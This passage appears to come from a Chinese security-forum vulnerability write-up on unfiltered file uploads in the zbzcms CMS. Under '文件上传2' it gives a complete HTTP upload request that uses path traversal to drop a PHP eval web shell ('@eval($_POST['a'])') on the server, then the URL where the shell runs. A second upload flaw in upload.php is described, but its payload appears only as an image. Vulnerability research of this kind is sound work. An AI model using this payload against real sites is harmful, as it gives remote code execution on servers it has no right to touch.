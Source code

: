 ### 文件上传2

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-1590651423e655880725f8dfe812456cccea67ef.png)

来到phpstorm 可以发现没有任何的过滤

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-8f35f71213b9ab24d1dca7a2747e912ac4d97bef.png)

直接获取到路径这些就上传  
那我们直接构造payload：

```php
POST /zbzcms.com/cms/cms/include/up.php?run=file&path=../../upload/up/&filename=0 HTTP/1.1
Host: 192.168.1.7
Content-Length: 238
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryqwBQidHCCHB076er
Origin: http://192.168.1.7
Referer: http://192.168.1.7/zbzcms.com/cms/cms/admin/type.php?id=1&dq=3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,is;q=0.8,zh-TW;q=0.7
Cookie: PHPSESSID=utnoq283ip9p4fuu5dfm56qmo5
Connection: close

------WebKitFormBoundaryqwBQidHCCHB076er
Content-Disposition: form-data; name="0"; filename="yjh.php"
Content-Type: application/octet-stream

herman
<?php @eval($_POST['a']); phpinfo();?>
------WebKitFormBoundaryqwBQidHCCHB076er--
```

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-a1e0c67a6c5687c455e93da2cc35c18081bcaf16.png)

我们的访问地址：<http://192.168.1.7/zbzcms.com/cms/upload/up/16422582210.php> 因为有两个../嘛 所以路径变了

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-7cd2167cc52456461c78dd539e19ff1b524d00e0.png)

### 文件上传3

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-c56b1b2ccd06ba5a8224b9db14e936e63f0553bd.png)

在这个upload.php文件下  
这里也是没有做任何的过滤  
name为1的时候 也跳过了下面的后缀判断  
直接构造payload：

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-111cfca2dc588aa0f500473f7239f4f34b8672e6.png)
